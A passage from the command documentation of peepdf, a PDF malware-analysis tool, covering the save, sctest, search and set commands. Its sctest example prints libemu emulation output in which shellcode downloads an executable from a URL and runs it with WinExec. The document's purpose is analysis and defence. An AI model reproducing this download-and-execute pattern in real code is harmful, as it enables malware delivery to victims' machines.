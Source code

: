 ``` Usage: bytes offset num_bytes [file]

output = "stdout" ``` Index
save

``` Usage: save [filename]

Saves the file to disk ``` It's recommended to use this command when we make modifications in the document to keep it free of conflicts. For example, if we don't save the changes we can have inconsistent results when we use "object" and "rawobject" commands, because one of them is related to the file before the modifications and the other one after them.
save_version

``` Usage: save_version num_version filename

Saves the selected file version to disk ``` Index
sctest

``` Usage: sctest variable var_name Usage: sctest file file_name Usage: sctest raw offset num_bytes

Wrapper of the sctest tool (libemu) to emulate shellcodes PPDF> sctest file /tmp/shellcode

verbose = 0 Hook me Captain Cook! userhooks.c:127 user_hook_ExitThread ExitThread(32) stepcount 9172 FARPROC WINAPI GetProcAddress ( HMODULE hModule = 0x7c800000 => none; LPCSTR lpProcName = 0x0041767d => = "GetSystemDirectoryA"; ) = 0x7c814eea; FARPROC WINAPI GetProcAddress ( HMODULE hModule = 0x7c800000 => none; LPCSTR lpProcName = 0x00417691 => = "WinExec"; ) = 0x7c86136d; FARPROC WINAPI GetProcAddress ( HMODULE hModule = 0x7c800000 => none; LPCSTR lpProcName = 0x00417699 => = "ExitThread"; ) = 0x7c80c058; FARPROC WINAPI GetProcAddress ( HMODULE hModule = 0x7c800000 => none; LPCSTR lpProcName = 0x004176a4 => = "LoadLibraryA"; ) = 0x7c801d77; HMODULE LoadLibraryA ( LPCTSTR lpFileName = 0x004176b1 => = "urlmon"; ) = 0x7df20000; FARPROC WINAPI GetProcAddress ( HMODULE hModule = 0x7df20000 => none; LPCSTR lpProcName = 0x004176b8 => = "URLDownloadToFileA"; ) = 0x7df7b0bb; UINT GetSystemDirectory ( LPTSTR lpBuffer = 0x0012fe7c => none; UINT uSize = 32; ) = 19; HRESULT URLDownloadToFile ( LPUNKNOWN pCaller = 0x00000000 => none; LPCTSTR szURL = 0x004176cb => = "http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe"; LPCTSTR szFileName = 0x0012fe7c => = "c:\WINDOWS\system32\a.exe"; DWORD dwReserved = 0; LPBINDSTATUSCALLBACK lpfnCB = 0; ) = 0; UINT WINAPI WinExec ( LPCSTR lpCmdLine = 0x0012fe7c => = "c:\WINDOWS\system32\a.exe"; UINT uCmdShow = 0; ) = 32; void ExitThread ( DWORD dwExitCode = 32; ) = 0;

``` Index
search

``` Usage: search [hex] string

Search the specified string or hexadecimal string in the objects (decoded and encrypted streams included)

Example: search hex \x34\x35 PPDF> search javascript

[4] PPDF> search hex \x4a\x61\x76\x61

[4] ``` Index
set

``` Usage: set [var_name var_value]

Sets the specified variable value or creates one with this value. Without parameters all the variables are shown.

Special variables:

header_file: READ ONLY. Specifies the file header to be used when 'malformed_options' are active.

malformed_options: READ ONLY. Variable to store the malformed options used to save the file.

```